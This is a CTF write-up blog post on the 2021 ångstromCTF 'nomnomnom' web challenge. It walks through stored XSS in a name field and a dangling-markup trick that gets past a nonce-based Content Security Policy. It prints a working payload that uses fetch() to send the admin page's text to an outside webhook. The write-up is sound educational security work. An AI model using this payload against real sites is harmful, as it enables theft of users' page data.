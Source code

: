```yaml
---
title: "2021 ångstromCTF - nomnomnom Challenge"
layout: post
date: 2021-04-08 11:25
image: /assets/images/favicon/apple-touch-icon-76x76.png
headerImage: false
tag:
- CTF
- Web
- Dangling Markup
- ångstromCTF
category: blog
author: Casparov
description: Writeup for the nomnomnom Web challenge in the 2021 ångstromCTF.
---
```



## <u> The Challenge </u>
I had the pleasure of participating in the 2021 ångstromCTF, and within it, the challenge I ended up enjoying the most was:

<img class="image" src="/assets/images/nomnomnomLanding.PNG">

## <u> Analysis </u>

To begin, as per usual for any web challenge I immediately looked at the source code, html code and the game itself. A few moments later it's safe to say that this challenge is an XSS challenge, due to this section inside the source code:

```javascript
return res.send(`
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		${extra}${extra ? '<br /><br />' : ''}
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of ${score}! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by ${name}
		<script nonce='${nonce}'>
function report() {
	fetch('/report/${req.params.shareName}', {
		method: 'POST'
	});
}

document.getElementById('reporter').onclick = () => { report() };
		</script> 
		
	</body>
</html>`);
});
```

The game allows you to manually enter your own name within the browser window here, which provides an xss vector via the name variable. Any HTML tags inserted as name will be treated as actual HTML code!

## <u> Solution </u>

It took quite a while to find the solution for this challenge, and I started to go down an iframe rabbit hole. The main problem was the fact there was a `CSP (Content Security Policy)` that was blocking every script tag I provided because it required the usage of a randomly generated `nonce` as an attribute.

```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-a03da7bf8449792432c9623fa0644875'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <script>alert(1)</script>
		<script nonce='a03da7bf8449792432c9623fa0644875'>
function report() {
	fetch('/report/62231e1a14a18abb', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```
<img class = "image" src="/assets/images/nomnomnomnonce2.PNG">

That was until I found out that unfinished script tags ate (haha! nom'd) the script tag that was below it. The good thing about this is that it meant I could inject javascript code into the `<script src>` attribute with the nonce as the attribute of it, due to firefox being very weird with a topic called Dangling Markup.

The solution therefore is called a Dangling Markup Injection.
The report button sent a Simulated browser in admin context via Puppeteer within firefox, so the xss could be used to steal the "admin's" browser window, which was the only thing that displayed the flag, as seen three images above inside the `extra` variable.

In order to steal the admin's browser window though, we need to send their `document.body.innerText` to a webhook. Luckily, https://webhook.site is an easy solution to this and so the final solution to this problem is:

```html
<script src="data:text/javascript, fetch('webhookurlgoeshere', {method: 'POST', mode: 'no-cors', body: document.body.innerText})"
```

The `no-cors` mode basically allows us to bypass any problems with `CORS (Cross-Origin-Resource-Sharing)` which in turn stops any `Access-Control-Allow-Origin` errors.

But wait... that has nom'd everything including the report button functionality! Easy fix: just copy and paste the report function into the firefox console and run the function!

```javascript
function report() {
    fetch('/report/f8f9270fe102e65a', {
        method: 'POST'
    })
}
```

&nbsp;<img class = "image" src="/assets/images/report.PNG">&nbsp;

Once you have done that, your webhook.site should have recieved a request with the flag in it!

<img class = "image" src="/assets/images/sol.PNG">

Special thanks to Clanger and Omri from my team for helping me with this challenge for a long time. This challenge ended up taking me a good 2 days due to my lack of knowledge about Dangling Markup. But it was still incredibly fun none-the-less!